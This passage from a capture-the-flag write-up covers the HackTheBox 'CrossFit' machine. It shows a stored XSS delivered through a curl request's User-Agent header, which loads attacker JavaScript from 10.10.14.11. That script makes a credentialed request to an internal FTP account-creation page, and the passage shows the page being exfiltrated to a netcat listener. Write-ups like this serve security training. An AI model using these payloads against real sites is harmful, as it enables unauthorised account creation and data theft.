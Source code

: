     fetch_req.open("GET", "http://ftp.crossfit.htb/accounts/create", false);
    fetch_req.withCredentials = true;
    fetch_req.send();
    

Run it with `curl` (at this point I’ve added a `grep` on the results for the
XSS message to stop printing a full page each time, but still make sure the
request didn’t break):

    
    
    root@kali# curl -s http://gym-club.crossfit.htb/blog-single.php --data 'name=0xdf&email=0xdf@crossfit.htb&phone=9999999999&message=%3Cscript+src%3D%22http%3A%2F%2F10.10.14.11%22%3E%3C%2Fscript%3E&submit=submit' -H 'User-Agent: <script src="http://10.10.14.11/ftp-create-account.js"></script>' | grep -i xss
                        <div class='alert alert-danger' role='alert'><h4>XSS attempt detected</h4><hr>A security report containing your IP address and browser information will be generated and our admin team will be immediately notified.</div><br>                    <div class="leave-comment-form">
    

After a GET at my Python webserver on 80 for `ftp-create-account.js`, I see
the POST come back at `nc`:

    
    
    POST / HTTP/1.1
    Host: 10.10.14.11:3000
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
    Accept: */*
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: http://gym-club.crossfit.htb/security_threat/report.php
    Content-Type: text/plain;charset=UTF-8
    Content-Length: 1722
    Origin: http://gym-club.crossfit.htb
    Connection: keep-alive
    
    <!DOCTYPE html>
    <html>
    <head>
        <title>FTP Hosting - Account Management</title>
        <link href="https://cdnjs.cloudflare.com/ajax/libs/twitter-bootstrap/4.0.0-alpha/css/bootstrap.css" rel="stylesheet">
    </head>
    <body>
    <br>
    <div class="container">
            <div class="row">
            <div class="col-lg-12 margin-tb">
                <div class="pull-left">
                    <h2>FTP Hosting - Account Management</h2>
                </div>
                <div class="pull-right">
                    <a class="btn btn-success" href="http://ftp.crossfit.htb/accounts/create"> Create New Account</a>
                </div>
            </div>
        </div>
                <div class="alert alert-success">
                <p>Account created successfully.</p>
            </div>
        
